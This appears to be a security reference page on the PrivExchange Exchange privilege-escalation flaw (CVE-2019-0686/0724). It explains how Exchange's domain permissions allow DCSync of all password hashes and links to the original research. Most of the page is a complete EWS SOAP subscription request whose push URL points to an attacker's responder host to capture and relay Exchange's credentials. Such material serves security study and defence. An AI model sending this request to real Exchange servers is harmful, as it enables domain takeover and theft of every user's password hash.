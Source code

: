# CVE-2019-0686

PrivExchange - Abusing Exchange: One API call away from Domain Admin (CVE-2019-0686 & CVE-2019-0724)

- [Abusing Exchange - One API call away from Domain Admin Exploiting PrivExchange](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

The main vulnerability here is that Exchange has high privileges in the Active Directory domain. The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which enables any member of this group to modify the domain privileges, among which is the privilege to perform DCSync operations. Users or computers with this privilege can perform synchronization operations that are normally used by Domain Controllers to replicate, which allows attackers to synchronize all the hashed passwords of users in the Active Directory.

## Examples

##### SOAP Request creating subscription to mailbox

```bash
POST /ews HTTP/1.1
Host: exchange.example.com
Accept: */*
Accept-Language: nl-nl
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Content-Length: 934
Connection: close
Referer: https://exchange.example.com/ews
User-Agent: iPhone/11.1

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages">
    <soap:Header>
        <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
        <m:Subscribe>
            <m:PushSubscriptionRequest SubscribeToAllFolders="true">
                <t:EventTypes>
                    <t:EventType>NewMailEvent</t:EventType>
                    <t:EventType>ModifiedEvent</t:EventType>
                    <t:EventType>MovedEvent</t:EventType>
                </t:EventTypes>
                <t:StatusFrequency>1</t:StatusFrequency>
                <t:URL>http://<responder-IP-adres/gibcredsplz_2013_4/</t:URL>
            </m:PushSubscriptionRequest>
        </m:Subscribe>
    </soap:Body>
</soap:Envelope>
```

## References

- [Github.com - DirkjanM - PrivExchange](https://github.com/dirkjanm/PrivExchange)
- [Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [Chryzsh.github.io - Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)
